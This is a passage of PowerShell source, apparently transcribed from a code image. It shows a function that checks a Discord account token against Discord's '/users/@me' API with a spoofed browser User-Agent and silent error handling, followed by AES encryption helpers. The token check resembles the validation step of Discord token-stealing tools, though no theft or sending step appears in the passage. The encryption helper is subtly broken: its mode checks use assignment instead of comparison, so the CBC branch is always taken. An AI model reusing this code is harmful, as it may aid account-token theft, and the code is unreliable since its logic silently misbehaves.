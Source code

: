```
            [Parameter(Mandatory = $true)]
            [string]$Token
        )
    
        process {
            try {
                $Headers = @{
                    "Authorization" = $Token
                    "Content-Type" = "application/json"
                    "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36"
                }
    
                $Uri = "https://discord.com/api/v9/users/@me"
    
                $Response = Invoke-RestMethod -Uri $Uri -Method Get -Headers $Headers
                return $Response
            }
            catch {}
        }
    }
    
    function Create-AesManagedObject($key, $IV, $mode) {
        $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    
        if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
        elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
        elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
        elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
        elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}
    
    
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
        $aesManaged.BlockSize = 128
        $aesManaged.KeySize = 256
        if ($IV) {
            if ($IV.getType().Name -eq "String") {
                $aesManaged.IV = [System.Convert]::FromBase64String($IV)
            }
            else {
                $aesManaged.IV = $IV
            }
        }
        if ($key) {
            if ($key.getType().Name -eq "String") {
                $aesManaged.Key = [System.Convert]::FromBase64String($key)
            }
            else {
                $aesManaged.Key = $key
            }
        }
        $aesManaged
    }
    
    function Encrypt-String($key, $plaintext) {
        $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
        $aesManaged = Create-AesManagedObject $key
        $encryptor = $aesManaged.CreateEncryptor()
        $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
        [byte[]] $fullData = $aesManaged.IV + $encryptedData
        [System.Convert]::ToBase64String($fullData)
    }
    
```